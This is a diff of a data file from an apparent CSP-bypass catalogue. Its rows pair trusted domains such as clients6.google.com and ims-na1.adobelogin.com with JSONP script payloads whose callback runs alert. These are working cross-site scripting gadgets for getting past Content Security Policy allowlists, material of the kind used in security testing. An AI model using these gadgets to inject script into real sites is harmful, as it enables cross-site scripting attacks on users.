

Before and after one commit to renniepak/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out; long unchanged cells end in …; removed rows and columns are numbered as before the commit, all else as after; the diff covers the shown part only; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

```diff
--- a/data.tsv
+++ b/data.tsv
-row 82: cdn.arcgis.com <script src="https://cdn.arcgis.com/sharing/rest/content/items/x/resources/styles/root.json?f=json&token=x&callback=alert(1)"></script>
+row 82: cdn.arcgis.com | <script src="https://cdn.arcgis.com/sharing/rest/content/items/x/resources/styles/root.json?f=json&token=x&callback=alert(1)"></script>
-row 103: clients6.google.com <script src="https://clients6.google.com/drive/v2internal/files?callback=alert(1)"></script>
+row 103: clients6.google.com | <script src="https://clients6.google.com/drive/v2internal/files?callback=alert(1)"></script>
-row 126: dapi.videoly.co <script src="https://dapi.videoly.co/2/videos/0/467/?hn=www.maxgaming.fi&productTitle=x&brandName=Lethal+Gaming+Gear&productId=1&callback=alert"></script>
+row 126: dapi.videoly.co | <script src="https://dapi.videoly.co/2/videos/0/467/?hn=www.maxgaming.fi&productTitle=x&brandName=Lethal+Gaming+Gear&productId=1&callback=alert"></script>
-row 170: ims-na1.adobelogin.com <script src="https://ims-na1.adobelogin.com/ims/validate_token/v1?callback=alert"></script>
+row 170: ims-na1.adobelogin.com | <script src="https://ims-na1.adobelogin.com/ims/validate_token/v1?callback=alert"></script>
-row 181: js.testfreaks.com <script src="https://js.testfreaks.com/onpage/kodin1-fi/all-reviews.json?callback=alert"></script>
+row 181: js.testfreaks.com | <script src="https://js.testfreaks.com/onpage/kodin1-fi/all-reviews.json?callback=alert"></script>
```
Also changed, not shown: 15 added rows and 15 removed rows elsewhere in this file.
